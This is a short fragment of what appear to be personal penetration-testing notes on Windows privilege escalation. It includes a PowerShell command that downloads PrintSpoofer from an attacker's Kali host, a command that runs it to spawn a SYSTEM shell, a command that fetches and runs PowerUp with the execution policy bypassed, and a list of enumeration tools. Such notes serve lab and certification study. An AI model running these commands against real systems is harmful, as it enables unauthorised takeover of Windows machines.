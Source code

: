     <aside>
    💡
    
    - powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<Kali-IP>:8000/PrintSpoofer.exe', 'C:\PrivEsc\PrintSpoofer.exe')"
    </aside>
    
- Run PrintSpoofer in Interactive Mode
    - `C:\PrivEsc\PrintSpoofer.exe -i -c cmd.exe`

### use automated enumeration to all service , you can use tool like

- windows-privesc-check
- Watson
- sherlock
- powersploit/privesc/powerup  (((((((((((((((((((((

`Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" -OutFile "PowerUp.ps1" powershell -ExecutionPolicy Bypass -File PowerUp.ps1 > powerup_results.txt`                                         ))))))))))))))))))))))))

- windows-exploit-suggester
- jaws
- winpeas.exe and .bat
